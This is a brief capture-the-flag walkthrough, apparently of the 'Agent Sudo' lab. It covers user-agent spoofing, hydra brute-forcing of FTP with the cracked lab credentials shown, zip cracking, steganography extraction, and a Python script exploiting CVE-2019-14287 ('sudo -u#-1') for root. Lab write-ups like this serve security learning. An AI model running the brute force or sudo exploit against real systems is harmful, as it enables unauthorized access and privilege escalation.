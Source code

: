 # Agent Sudo

## change user agent to C and got a name chris (a username)
also mentions of R and J

### password of chris weak so hydra on ftp
```
[21][ftp] host: 10.10.103.80   login: chris   password: crystal
```

got all the files on ftp

binwalk to get a zip

john that zip to get To_agentR.txt

### in To_agentR.txt 

```
QXJlYTUx -> Area51 on base64 decode
```

### steghide the other image to get message.txt

### got password of james

privesc using CVE-2019-14287

example code
```python
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

## PWND